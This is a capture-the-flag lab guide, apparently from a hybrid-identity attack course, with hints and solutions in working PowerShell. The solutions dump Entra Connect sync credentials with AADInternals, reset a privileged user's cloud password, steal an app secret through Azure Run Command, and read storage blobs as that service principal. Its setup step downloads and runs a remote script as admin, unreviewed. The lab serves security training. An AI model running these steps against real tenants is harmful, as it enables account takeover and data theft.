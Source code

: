 # LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (**when asked, login using the ENTRA CREDS (!) - you will be asked twice**)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!) - you will be asked twice
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -DomainName #"mydomain.onmicrosoft.com"
    ```
    - if failed it's probably due to timeout: rerun again and enter the creds faster

2. RDP login to Win11 VM, then put there what you've created in the script above in the correct place..

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

![entire_path](entire_path.png)
    1. Pass reset: DC vm -> reset pass of "user2" (or your given user in the class) using Entra Sync account credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM 

    4. Steal the app secret on that VM by running powershell script from the Run Command extension on the Azure portal 

    5. Use the secret to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>


## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -tenantId $tenant.tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```

Enumerate Applications:
```powershell
# Retrieve all applications
$applications = Get-MgApplication -All

# Retrieve all service principals (needed for permission lookup)
$servicePrincipals = Get-MgServicePrincipal -All

# Iterate over each application
foreach ($app in $applications) {
    $appName = $app.DisplayName
    $appId = $app.AppId
    $appObjectId = $app.Id

    # Retrieve permissions (RequiredResourceAccess contains GUIDs of permissions)
    $permissions = @()
    foreach ($resourceAccess in $app.RequiredResourceAccess) {
        $sp = $servicePrincipals | Where-Object { $_.AppId -eq $resourceAccess.ResourceAppId }
        if ($sp) {
            foreach ($perm in $resourceAccess.ResourceAccess) {
                $role = $sp.AppRoles | Where-Object { $_.Id -eq $perm.Id }
                $permName = if ($role) { $role.DisplayName } else { "Unknown Permission ($($perm.Id))" }
                $permissions += [PSCustomObject]@{
                    ResourceName = $sp.DisplayName
                    Permission   = $permName
                    Type         = $perm.Type
                }
            }
        }
    }

    # Output application information
    Write-Host "Application: $appName"
    Write-Host "  App ID: $appId"
    Write-Host "  Object ID: $appObjectId"
    Write-Host "  Required Permissions:"
    $permissions | Format-Table -AutoSize

    # Retrieve associated service principal
    $sp = $servicePrincipals | Where-Object { $_.AppId -eq $appId }
    if ($sp) {
        $spName = $sp.DisplayName
        $spObjectId = $sp.Id
        Write-Host "  Service Principal: $spName"
        Write-Host "    Object ID: $spObjectId"

        # Get assigned roles for the service principal
        $assignedRoles = Get-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $spObjectId
        if ($assignedRoles) {
            $roleDetails = @()
            foreach ($role in $assignedRoles) {
                $resourceSP = $servicePrincipals | Where-Object { $_.Id -eq $role.ResourceId }
                if ($resourceSP) {
                    $roleName = $resourceSP.AppRoles | Where-Object { $_.Id -eq $role.AppRoleId }
                    $roleDisplayName = if ($roleName) { $roleName.DisplayName } else { "Unknown Role ($($role.AppRoleId))" }
                    $roleDetails += [PSCustomObject]@{
                        AssignedTo    = $resourceSP.DisplayName
                        RoleName      = $roleDisplayName
                    }
                }
            }

            Write-Host "    Assigned Roles:"
            $roleDetails | Format-Table -AutoSize
        } else {
            Write-Host "    No assigned roles."
        }
    } else {
        Write-Host "  No associated service principal found."
    }

    Write-Host "--------------------------------------"
}
```

We see some interesting app and service principal, however we don't have any permissions to them..
</details>

## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Let's target `user2` (or your target user given as in class), as he holds a privileged role and we do have permissions to set its password.. 
</details>

<details>
    <summary><b>Solution</b></summary>

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 3

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    user1 is logged into that Win 11 vm, and he's a part of the company's IT, he's the guy responsible for backing up cloud data of the company.
    He does that by running stuff from the C:\ folder...
</details>

<details>
    <summary><b>Hint 4</b></summary>

    Use the Run Command extension to get a secret that lies on this machine on the C:\ folder..
</details>

<details>
<summary><b>Solution</b></summary>

user1 created an app with a scret to make these backups, let's use that for our advantage..

1. Login to portal.azure.com as the target user you compromised
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\backup_app_secret.txt`
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired file content, what can you do?
    You may use your own PC / DC VM, you got everything you needed from this VM.
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Authenticate as that SPN and see what it has access to..

```powershell
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID"
$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List SPN's Azure Role Assignment using Azure PowerShell
$roleAssignments = Get-AzRoleAssignment -ObjectId $spId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this SPN has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
Get-MgApplication -All # select the correct app.appId (NOT app.Id), run this command as the user you've compromised
$appId = "APP_ID" # get it from command above
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId

```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal your target user identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources + the App Registration and its Enterprise App